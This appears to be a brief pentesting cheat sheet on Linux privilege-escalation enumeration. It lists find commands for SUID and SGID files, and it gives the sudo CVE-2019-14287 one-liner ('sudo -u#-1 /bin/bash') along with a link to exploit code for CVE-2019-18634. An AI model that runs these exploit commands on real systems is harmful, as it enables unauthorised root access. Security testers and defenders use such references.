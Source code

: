# Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| Find SUID files | ```find / -perm -u=s -type f 2>/dev/null``` |
| Find SGID files | ```find / -perm -g=s -type f 2>/dev/null``` |


| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow, pwfeedback enabled: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |